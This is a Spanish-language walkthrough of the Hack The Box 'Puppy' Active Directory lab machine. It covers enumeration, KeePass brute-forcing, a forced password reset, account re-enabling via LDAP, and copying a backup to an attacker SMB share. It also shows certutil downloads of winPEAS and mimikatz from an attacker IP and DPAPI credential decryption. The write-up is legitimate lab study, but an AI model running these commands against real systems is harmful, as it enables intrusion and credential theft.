




## Maquina Puppy

---

### **Información para HTB**

|  Usuario   |    Contraseña    |     IP      |
| :--------: | :--------------: | :---------: |
| levi.james | KingofAkron2025! | 10.10.11.70 |

---

### **Enumeración**

Comenzando con el escaneo de puertos en Nmap puedo identificar puertos utilizados para AD.

```bash
sudo nmap 10.10.11.70 -sSV -p- --min-rate 5000 -A -vvv -oN Scan_Puppy 
```


Las credenciales que nos da la maquina nos muestra información sobre algunos recursos compartidos para este usuario. Al indagar entre las rutas vemos información pero sin contenido

```bash
smbclient -L //10.10.11.70/ -U PUPPY.HTB\\levi.james
```


La ruta /DEV aunque de acceso no deja listar, escribir ni leer los documentos que puedan estar alojados.


Descargando el archivo *Bloodhound-python* puedo obtener un archivo zip de toda la información que puede llegar a tener vinculada el usuario levi.james en el AD.

```bash
bloodhound-python -u levi.james -p 'KingofAkron2025!' -d PUPPY.HTB -ns 10.10.11.70 -c all --zip
```


Este archivo Zip lo utilizamos en BloodHound y podemos ver que Levi.james es miembro de algunos grupos y entre ellos hay un grupo de desarrollo del cual podemos abusar y darle permisos a la ruta /DEV.


```bash
net rpc group addmem "DEVELOPERS" "levi.james" -U "PUPPY.HTB"/"levi.james"%'KingofAkron2025!' -S 10.10.11.70
```

Una vez agrego al usuario al grupo Developers verifico que la ruta /DEV pueda ser leida, asi que ya se puede listar los archivos sin que nos pueda denegar el acceso.


Se puede encontrar la siguiente información, el archivo con extensión kdbx es un gestor de contraseñas donde puedes alojar información y solo con la contraseña puedes ver su interior. Me envio este archivo a mi maquina local.


---

### **Acceso Inicial (Foothold)**

Como se puede observar nos pide una contraseña que no se logra obtener en ninguna parte de las rutas de smbclient.


Aun haciendo uso de *Keepass2john* vemos que no hay un resultado a nuestro favor.


```
https://github.com/r3nt0n/keepass4brute
```  

Encuentro un GitHub de un keepass para hacer fuerza bruta, en el repositorio nos explica como se usa este script y lo pongo a prueba y consigo la contraseña del archivo que obtuve.




Del archivo podes ver 5 usuarios con sus contraseñas, esto podemos probarlo luego para identificar que usuarios tienen credenciales validas.


```bash
nxc smb 10.10.11.70 -u levi.james -p KingofAkron2025! --users
```

Obteniendo la lista de usuarios dentro del AD, podemos ver los nombres de los usuarios que habiamos encontrado antes, estos nombres son los registrados en las cuentas asi que puedo hacer uso de ellos y las contraseñas antes obtenidas para obtener nuevas credenciales.


```bash
crackmapexec smb 10.10.11.70 -u usuarios -p claves -d PUPPY.HTB
```

Se observa que de los usuarios hay uno que tiene las credenciales validas, asi que ya hay un usuario nuevo para investigar.


Como en mi BloodHound ya tenia la informacion de usuarios voy en busqueda de Ant.Edwards y veo que tiene un miembro, al indagar en el **GenericALL**  y veo que hay una opción para forzar un cambio de contraseña. 


---

### **Movimiento Lateral**

Con el siguiente comando cambiamos la contraseña, pero esto no hace que el usuario sea activado, asi que con el siguiente script en python ejecutado después de cambiar la contraseña hace que el usuario se active.

```bash
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

```python
from ldap3 import Server, Connection, ALL, NTLM, MODIFY_REPLACE

# Datos de conexión
domain = 'PUPPY.HTB'
username = 'ant.edwards'  # usuario que tiene permisos
password = 'Antman2025!'  # contraseña del usuario
dc_ip = '10.10.11.70'     # IP del Domain Controller

target_user = 'adam.silver'  # usuario a activar

# El valor 512 es userAccountControl para cuenta habilitada y normal
USER_ACCOUNT_CONTROL_ENABLE = 512

# Formatear usuario con dominio para NTLM
user = f'{domain}\\{username}'

# DN base para búsqueda, adaptalo si tu dominio tiene otra estructura
base_dn = 'DC=puppy,DC=htb'

# Crear servidor y conexión
server = Server(dc_ip, get_info=ALL)
conn = Connection(server, user=user, password=password, authentication=NTLM, auto_bind=True)

# Buscar DN del usuario objetivo
conn.search(base_dn, f'(sAMAccountName={target_user})', attributes=['distinguishedName'])
if len(conn.entries) == 0:
    print(f'Usuario {target_user} no encontrado.')
    exit()

user_dn = conn.entries[0].distinguishedName.value
print(f'Usuario encontrado: {user_dn}')

# Modificar userAccountControl para activar la cuenta
conn.modify(user_dn, {'userAccountControl': [(MODIFY_REPLACE, [USER_ACCOUNT_CONTROL_ENABLE])]})

if conn.result['result'] == 0:
    print(f'Usuario {target_user} activado correctamente.')
else:
    print(f'Error al activar usuario: {conn.result}')
```


Entro de manera remota al usuario nuevo y tenemos acceso a la primera flag

```bash
evil-winrm -i 10.10.11.70 -u adam.silver -p 'HackedP@ssword123'
```


Buscando más información que me de pistas para elevar privilegios encuentro una carpeta de respaldo, este archivo zip lo envio a mi maquina virtual para descomprimirlo.


```bash
impacket-smbserver share $(pwd) -smb2support
```


```powershell
copy C:\Backups\site-backup-2024-12-30.zip \\<TU-IP>\share\
```


Ya con el archivo enviado a mi maquina local descomprimo el archivo y me da una carpeta de nombre puppy.




Al entrar en la carpeta vemos sub-carpetas y un archivo bak, accedo y tengo nuevas credenciales.


---

### **Escalada de Privilegios**

Como la maquina la están haciendo más personas pues es normal ver otros archivos de ejecución para llegar a su final.


El archivo que enviaré a la maquina victima es winPeasany.py, este archivo hace un analisis de los posibles puntos críticos donde puede explotarse una vulnerabilidad y obtener la escalada de privilegios.

Levanto un servidor con python y con el siguiente comando hacia windows obtengo el archivo que necesito, subiré el archivo mimikatz.exe tambien



```powershell
certutil -urlcache -split -f http://<tu-IP>:<Puerto>/archivo.exe archivo.exe
```


Al correr el ejecutable WinPeas me encuentra unos archivos con credenciales y Masterkeys, esto será util para con el ejecutable Mimikatz  me ayude a desencriptar archivos DPAPI. Tendré preciso la ruta en donde puedo encontrar las Master Key y la credencial.


Para hacer uso de mimikatz en esta maquina debo tener preciso lo siguiente: credencial, masterkey.


Cuando ejecuto el siguiente comando me da como resultado una llave o clave que utilizaré para descifrar la credencial

```powershell
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-148798
2659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /rpc" exit
```


ahora el comando cambia y lo que busca es obtener la información de la credencial con ayuda de la llave dada anteriormente.

```powershell
.\mimikatz.exe "dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DE
BF6B5FBD48B521B9 /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84"
 exit
```



```powershell
evil-winrm -i 10.10.11.70 -u steph.cooper_adm -p 'FivethChipOnItsWay2025!'
```

Ya con la credencial nueva que tenemos accedo a una conexión remota, como este usuario tiene más permisos que los antes obtenidos puedo moverme entre usuarios y voy hacia el Administrador y en el directorio Desktop encuentro la flag de root.


---
